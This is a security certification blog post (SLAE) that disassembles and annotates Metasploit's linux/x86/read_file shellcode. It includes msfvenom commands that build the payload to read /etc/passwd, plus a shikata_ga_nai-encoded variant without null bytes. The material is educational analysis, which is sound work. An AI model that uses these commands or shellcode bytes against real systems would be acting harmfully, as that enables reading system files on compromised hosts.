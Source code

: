 ```yaml
---
layout: post
title:  "SLAE Assignment 5.2 - Msfvenom linux/x86/read_file shellcode Analysis"
date:   2017-04-25
category: Certification
excerpt_separator: <!--more-->
hidden: true
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 5.2:  
  
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
<!--more-->
  
Hello everybody,  
  
Here we are for the second analysis of our msf shellcodes.  Let's perform the analysis for the **linux/x86/read_file** shellcode:  
```bash
# msfvenom -p linux/x86/read_file --payload-options
Options for payload/linux/x86/read_file:


       Name: Linux Read File
     Module: payload/linux/x86/read_file
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 62
       Rank: Normal

Provided by:
    hal

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FD    1                yes       The file descriptor to write output to
PATH                   yes       The file path to read

Description:
  Read up to 4096 bytes from the local file system and write it back 
  out to the specified file descriptor
...
```
  
Let's examine the generated shellcode:  
```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call dword 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```
  
So let's comment our shellcode instructions:  
```nasm
    jmp short 0x38  ; jmp/call/pop technique
    mov eax,0x5     ; int open(const char *pathname, int flags);
    pop ebx         ; pop the @ of the string starting at 0x3D
    xor ecx,ecx     ; clears out ecx
    int 0x80        ; open syscall
    mov ebx,eax     ; file descriptor result of the open syscall
    mov eax,0x3     ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     ; 
    mov ecx,edi     ; pointer to a valid stack address
    mov edx,0x1000  ; size of buffer that will be read and buffered to the stack
    int 0x80        ; read syscall
    mov edx,eax     ; result of read and third argument of write function
    mov eax,0x4     ; ssize_t write(int fd, const void *buf, size_t count);
    mov ebx,0x1     ; standard output / ebx is still pointing to the buffer on stack
    int 0x80        ; write syscall
    mov eax,0x1     ; void _exit(int status);
    mov ebx,0x0     ; 0 everything is OK
    int 0x80        ; exit syscall
    call dword 0x2  ; pushing the @ of the following bytes (/etc/passwd) on the stack
    das
    gs jz 0xa4      
    das
    jo 0xa5
    jnc 0xb9
    ja 0xac
    db 0x00         ; null byte ending string
```
  
The jmp/call/pop technique will set the address of the following string in EBX:  
```bash
# echo -e \\x2F\\x65\\x74\\x63\\x2F\\x70\\x61\\x73\\x73\\x77\\x64
/etc/passwd
```
  
Once again you can generate a shellcode (quite more complex) without null bytes with the following command:  
```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw -b \x00 | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 100 (iteration=0)
x86/shikata_ga_nai chosen with final size 100
Payload size: 100 bytes

00000000  BAF7BD341A        mov edx,0x1a34bdf7
00000005  DBDF              fcmovnu st7
00000007  D97424F4          fnstenv [esp-0xc]
0000000B  5E                pop esi
0000000C  29C9              sub ecx,ecx
0000000E  B113              mov cl,0x13
00000010  83EEFC            sub esi,byte -0x4
00000013  31560F            xor [esi+0xf],edx
00000016  0356F8            add edx,[esi-0x8]
00000019  5F                pop edi
0000001A  C1                db 0xc1
0000001B  F1                int1
0000001C  3018              xor [eax],bl
0000001E  2F                das
0000001F  06                push es
00000020  3C58              cmp al,0x58
00000022  6B37F5            imul esi,[edi],byte -0xb
00000025  95                xchg eax,ebp
00000026  0BBEC69E0FC1      or edi,[esi-0x3ef0613a]
0000002C  C8DE8626          enter 0x86de,0x26
00000030  41                inc ecx
00000031  27                daa
00000032  22A841D85364      and ch,[eax+0x6453d841]
00000038  E151              loope 0x8b
0000003A  91                xchg eax,ecx
0000003B  CE                into
0000003C  E561              in eax,0x61
0000003E  16                push ss
0000003F  2F                das
00000040  5E                pop esi
00000041  60                pushad
00000042  16                push ss
00000043  2F                das
00000044  A0AE9697A1        mov al,[0xa19796ae]
00000049  3097E71A3097      xor [edi-0x68cfe519],dl
0000004F  E75C              out 0x5c,eax
00000051  FC                cld
00000052  17                pop ss
00000053  0F9901            setns [ecx]
00000056  E82F0E9B63        call dword 0x639b0e8a
0000005B  B37F              mov bl,0x7f
0000005D  13ED              adc ebp,ebp
0000005F  40                inc eax
00000060  0CA4              or al,0xa4
00000062  89                db 0x89
00000063  A6                cmpsb
```
  
We can see, through the analysis of all of these shellcodes, the power of msfvenom while dynamically generating shellcodes.  
    
Hope you enjoyed this post, see you soon for the second msf shellcode analysis.  
  
[Phackt](https://twitter.com/phackt_ul)